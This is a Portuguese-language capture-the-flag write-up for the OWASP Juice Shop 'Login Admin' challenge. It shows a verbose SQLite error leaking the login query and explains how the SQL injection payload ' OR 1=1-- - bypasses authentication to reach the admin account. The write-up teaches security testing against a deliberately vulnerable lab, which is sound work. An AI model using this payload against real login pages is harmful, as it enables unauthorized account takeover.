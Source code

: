 # Injection

## Login Admin

> Faça login com a conta do administrador.

Para esse desafio, podemos navegar até a página de autenticação e tentar manipular a lógica de autenticação. Supondo que o banco de dados utilize [SQL](https://aws.amazon.com/pt/what-is/sql/), podemos interceptar a requisição, inserir um apóstrofo `'` no campo de e-mail e observar o comportamento da aplicação. Ao enviar a requisição modificada, obtive a seguinte resposta em JSON:

{% code overflow="wrap" %}
```json
{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"96ca9d2f94b871e6933b51800e24e917\"",
    "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)",
    "name": "SequelizeDatabaseError",
    "parent": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL"
    },
    "original": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL"
    },
    "sql": "SELECT * FROM Users WHERE email = ''' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL",
    "parameters": {}
  }
}
```
{% endcode %}

Perceba que a aplicação retorna um erro excessivamente verboso, indicando detalhadamente o que houve no back-end[^1]. Isso indica que há a possibilidade de [SQL Injection](https://www.kaspersky.com.br/resource-center/definitions/sql-injection), pois podemos manipular a consulta e alterar o funcionamento da consulta ao banco de dados. Dessa forma, podemos tentar alterar a consulta para que o banco de dados retorne o primeiro resultado da tabela `Users` inserindo o payload `' OR 1=1-- -`. Tendo como base a consulta que foi retornada no erro, ao inserir esse payload, ela ficará da seguinte forma:

```sql
SELECT * FROM Users WHERE email = '' OR 1=1-- -' AND password = '96ca9d2f94b871e6933b51800e24e917' AND deletedAt IS NULL
```

Ou seja, a consulta está **PEDINDO** (SELECT) para o banco de dados uma instância **DA** **ENTIDADE** (FROM) `Users` **A QUAL** (WHERE) o campo `email` seja vazio (email='') **OU** o numeral 1 seja igual a 1 (1=1). Por fim, é utilizado o `-- -` para indicar que toda instrução a partir da que informamos seja considerada um comentário e não seja processada pelo banco de dados. Dessa forma, a instrução é encerrada e como a condição 1=1 só pode ser verdadeira, o banco de dados entende que precisa retornar o primeiro resultado da tabela, que nesse caso é o `admin`, o que nos garante acesso à conta do administrador e soluciona o desafio.



[^1]: a parte da aplicação responsável por tratar as consultas ao banco de dados
